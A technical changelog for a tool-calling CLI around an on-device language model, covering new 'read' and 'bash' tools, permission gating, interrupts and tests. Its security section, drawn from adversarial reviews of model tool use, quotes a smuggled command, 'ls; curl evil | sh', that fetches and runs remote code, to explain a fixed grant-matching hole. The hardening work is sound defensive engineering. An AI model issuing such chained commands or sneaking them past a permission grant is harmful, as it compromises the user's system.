


# Technical Changelog — v1.0.1 → v1.2.0

**Range:** `v1.0.1` (8f31397, 2026-06-20) → HEAD (`3754a61`, 2026-07-22) · **37 commits**,
all post-dating the tag. HEAD is **untagged** — `package.json` still reads `1.0.1`; **v1.2.0**
is the planned next release, not an existing tag.

Derived from `git diff v1.0.1..HEAD` and verified against the v1.0.1 tree (e.g.
`git cat-file -e v1.0.1:src/tools/types.ts` → absent; `repl.ts@v1.0.1` has 0 esc/abort
references), **not** from commit prose or the requirements docs — so each item is a real
delta, not pre-existing state.

### Diff by area — the raw total is misleading

Raw diff is **89 files, +6,922 / −662**, but much of that is docs and agent/skill
scaffolding, not engineering:

| Area | Files | +/− | Kind |
|------|------:|-----|:----:|
| tests | 17 | +1,902 / −98 | ✅ product |
| `src/tools/` (**new** subsystem) | 8 | +919 / −0 | ✅ product |
| scripts (demo pipeline + changelog tool) | 5 | +810 / −411 | ✅ product |
| `src/` (other, modified) | 8 | +367 / −40 | ✅ product |
| `apple-fm-helper/` (Swift) | 2 | +238 / −26 | ✅ product |
| assets/demos (SVGs) | 4 | +345 / −4 | ✅ generated |
| docs | 14 | +930 / −31 | 📄 |
| `.claude/` `.agents/` `.hotsheet/` scaffolding | 25 | +1,178 / −0 | ⚙️ non-code |
| README / CI / config | 6 | +233 / −52 | 📄 |

**Product code only** (`src` + `apple-fm-helper` + `tests` + `scripts`): **+4,236 / −575**.
The test delta (+1,902) exceeds any single feature — this line is as much a test-hardening
pass as a feature drop.

**Unchanged baseline (context, not part of this diff):** probe, one-shot/stream generate,
the chat REPL, automatic compaction, native guided generation (FR-8), and the persistent
`LiveSession` (FR-12) all already shipped at v1.0.1. This range adds tools/interrupt *on
top of* them; `no-network` + `zero-runtime-deps` (NFR-1/NFR-4) were already true and stay
true — a networked `web` tool was added **and removed within this range** (net zero at HEAD).

## 1. Tool calling — the one net-new subsystem (FR-14)

`src/tools/` (8 files, +919) and Swift `apple-fm-helper/Tools.swift` (+112) are **entirely
new** (both absent at v1.0.1). The `src/index.ts` export delta is *exclusively*
tool/permission symbols — nothing else joined the public surface:

> `+ ToolRegistry, registryFromNames, toolGuidancePrompt, BUILTIN_TOOLS, readTool, bashTool,
> PermissionPolicy` + types `Tool, ToolContext, ToolDefinition, PermissionMode,
> PermissionRequest, PermissionAsker, PermissionPolicyConfig`.

New CLI flags (`cliArgs.ts`): `--tools`, `--allow-tool`, `--deny-tool`, `--yes`.
`ChatSession` gained `tools?: ToolRegistry` + a fail-closed default (`session.ts`). The Swift
side added a `ToolBridge`, `emitToolCall`, a `tool_result` handler, and
`LanguageModelSession(tools:…)` (verified: `main.swift@v1.0.1` had 0 of these).

Phased within the range: **P1** plumbing + `read` (AFM-31) · **P2** permission gate (AFM-32)
· **P3** `bash` (AFM-33) · **P4** `web` (AFM-34), **removed** again (AFM-43) — so at HEAD
only `read`/`bash` remain and NFR-1 holds. Dispatcher later extracted to `dispatch.ts`
(AFM-46).

## 2. Security hardening of the new tools (AFM-62–70, 76–80)

Two adversarial reviews treated the model as **untrusted**; every fix is against code
introduced earlier *in this same range*:

- **AFM-63 (HIGH):** exact-equality key matching replaces prefix `startsWith` — a `bash`
  grant for `ls` no longer covers `ls; curl evil | sh`.
- **AFM-76 (HIGH):** `read` enforces the grant boundary on the **symlink-resolved** real path.
- **AFM-64/68:** `--yes` never blanket-approves a `dangerous` tool; the model-controlled
  command/path is sanitized (`sanitizeForPrompt`) before the approval prompt.
- **AFM-65/69/70/77:** `bash` runs detached, killed by **process group**, output-capped
  (~256 KiB), scoped env allowlist; `read` refuses non-regular files, byte-bounded + timed.
- **AFM-78:** tools with no policy install a **fail-closed** default. **AFM-80:** per-job
  least-privilege in release CI.

## 3. Esc-to-interrupt (FR-15) — new

`repl.ts`/`liveSession.ts` had **0** abort/signal references at v1.0.1. The range adds a
`cancel` session command + an `AbortSignal` threaded `repl.ts` (`emitKeypressEvents`) →
`ChatSession.send(…, signal)` → `LiveSession` → Swift (`Task.isCancelled` /
`CancellationError`), ending the turn with its **partial** text (kept in history), not an
error (AFM-37; on-device-verified AFM-45).

## 4. Robustness in the modified `src`/helper wiring (+367 / +238)

Beyond tool/Esc wiring, the modified files add:
- **`parseProbeResult`** (`protocol.ts`, used by `helper.ts`) — validates the probe line
  shape instead of an unchecked cast (AFM-79).
- **`contextWindowExceeded` compact-then-retry** (`session.ts`, 0 hits at v1.0.1) — on
  overflow the session compacts first so the retry fits (AFM-28).
- **NSError→wire-error mapping** in `main.swift` (`errorChain` / `failure(for:)` →
  `generationError` / `inferenceFailed`), independent of tools (AFM-24).

## 5. Demo pipeline — rebuilt, not tweaked (AFM-49, 22, 60, 82)

The four SVGs existed at v1.0.1, but the pipeline was reworked: `scripts/lib/cast.mjs` and
`window.mjs` are **new**, `demo.mjs`/`terminal.mjs` heavily rewritten. `domotion-svg` went
**^0.13.3 → ^0.21.1** (two hops: 0.15 in AFM-49, then 0.21.1 in AFM-60). Added a blinking
caret + gradient intro card (AFM-22) and **recaptured on-device** (AFM-82). SVG changes are
generated output.

## 6. Tests, docs & tooling (the bulk of the line count)

- **Tests +1,902:** a device-free **E2E CLI suite** (`tests/e2e/cli.e2e.test.ts`, AFM-25)
  driving the real bin against the stub helper; unit suites for tools, permissions,
  dispatch, output caps, bash; **state-transition** suites for `session`/`liveSession`
  (AFM-53/54); a `conventions.test.ts` guard. Suite → **226 passing**.
- **Docs +930:** four new requirement docs (`8-tool-support`, `9-tool-calling`,
  `10-permissions`, `11-builtin-tools`), `manual-test-plan.md`, and the `tool_call`/`cancel`
  additions to `4-protocol.md`.
- **Tooling:** a `technical-changelog` skill + `scripts/changelog-analysis.mjs` (this
  report's generator) landed in-range — hence the extra scripts/scaffolding lines above.
